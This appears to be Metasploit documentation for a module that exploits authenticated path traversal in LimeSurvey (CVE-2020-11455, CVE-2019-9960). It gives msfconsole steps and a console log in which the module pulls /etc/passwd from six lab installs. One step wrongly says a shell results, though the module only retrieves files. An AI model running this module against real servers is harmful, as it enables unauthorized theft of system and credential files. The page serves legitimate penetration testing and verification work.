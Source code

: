 ## Vulnerable Application

This module exploits an authenticated path traversal vulnerability found in LimeSurvey versions between 4.0 and 4.1.11 with
CVE-2020-11455 or <= 3.15.9 with CVE-2019-9960, inclusive.

In CVE-2020-11455 the `getZipFile` function within the `filemanager` functionality allows for arbitrary file download. The file retrieved
may be deleted after viewing.

In CVE-2019-9960 the `szip` function within the `downloadZip` functionality allows for arbitrary file download.

This module has been verified against the following versions:

  * 4.1.11-200316
  * 3.15.0-181008
  * 3.9.0-180604
  * 3.6.0-180328
  * 3.0.0-171222
  * 2.70.0-170921

### Install

This application is straight forward to install.  An excellent writeup is available on
[howtoforge.com](https://www.howtoforge.com/tutorial/how-to-install-limesurvey-on-ubuntu-1804/)

Versions can be downloaded from [github](https://github.com/LimeSurvey/LimeSurvey/releases).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/limesurvey_zip_traversals```
  4. Do: ```set file [file]```
  5. Do: ```set rhosts [ip]```
  6. Do: ```run```
  7. You should get a shell.

## Options

### FILE

The file to attempt to retrieve

## Scenarios

### LimeSurvey 4.1.11, 3.15.0, 3.9.0, 3.6.0, 3.0.0, and 2.70.0 on Ubuntu 18.04

```
[*] Processing lime41.rb for ERB directives.
resource (lime41.rb)> use auxiliary/scanner/http/limesurvey_zip_traversals
resource (lime41.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (lime41.rb)> set verbose true
verbose => true
resource (lime41.rb)> set uri /LimeSurvey-4.1.11-200316/
uri => /LimeSurvey-4.1.11-200316/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => SzF-eUl4RW1lU0h-aFZxWmNwbGZOREJrYUduZzI1WTaGH7eqrOmgcse5liKfPNZ8qqKkvenm5Fu6oxTSyVWDrQ==
[+] Login Successful
[*] Version Detected: 4.1.11
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set uri /LimeSurvey-3.15.0-181008/
uri => /LimeSurvey-3.15.0-181008/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => SDNyc21VYXJONmIwbjFkOENmUzEyS1NMX3lPQ0VYRTJyfE0iGABAxOsuZhxGdZd59W3dNCVx2D6JABRxmu6dgw==
[+] Login Successful
[*] Version Detected: 3.15.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__530709.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set uri /LimeSurvey-3.9.0-180604/
uri => /LimeSurvey-3.9.0-180604/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => QldPa0lZM0o0cUV-STU4NWVoYVlDdHNtYmhmVVl6NW39a1wvfep0Ccsuz_gx9V1AnMjtADnprALM7qwvxUz3Wg==
[+] Login Successful
[*] Version Detected: 3.9.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__407491.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set uri /LimeSurvey-3.6.0-180328/
uri => /LimeSurvey-3.6.0-180328/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => SHJzSk81ak5rdWdONTJWV0VLQTlHcjRKeGNIaFlYREqfcU-BuMlPRimIHJipKDsrCF3i7j29J4bNFwxsYGD42A==
[+] Login Successful
[*] Version Detected: 3.6.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__228237.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set uri /LimeSurvey-3.0.0-171222/
uri => /LimeSurvey-3.0.0-171222/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => T1VkbDlhYU9IbkZHel9wd0JoVVl5RTUxQ2h2Mk9yN0-AXAtaTDCOMX8gWru7EmBHPBumgY0FG0vAFLwCwyeeuA==
[+] Login Successful
[*] Version Detected: 3.0.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__611969.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> set uri /LimeSurvey-2.70.0-170921/
uri => /LimeSurvey-2.70.0-170921/
resource (lime41.rb)> run
[*] CSRF: YII_CSRF_TOKEN => elhvTzJaWGlJWU10WnBFajlTYmN5a1VHY1M0bDNJd1C2okYXL__0in7KMlmwY6_Iuk8sI7H7s2zQPZ5NiWW_Xg==
[+] Login Successful
[*] Version Detected: 2.70.0
[*] Attempting to retrieve file
[+] File stored to: /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__149900.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (lime41.rb)> md5sum ~/.msf4/loot/*
[*] exec: md5sum ~/.msf4/loot/*

3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__530709.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__228237.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141208_default_2.2.2.2__407491.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__149900.txt
3cf5f3492b7c77a77f74124bb4ccb528  /home/h00die/.msf4/loot/20200408141209_default_2.2.2.2__611969.txt
msf5 auxiliary(scanner/http/limesurvey_zip_traversals) > cat /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt
[*] exec: cat /home/h00die/.msf4/loot/20200408141207_default_2.2.2.2__164991.txt

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
...snip...
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```
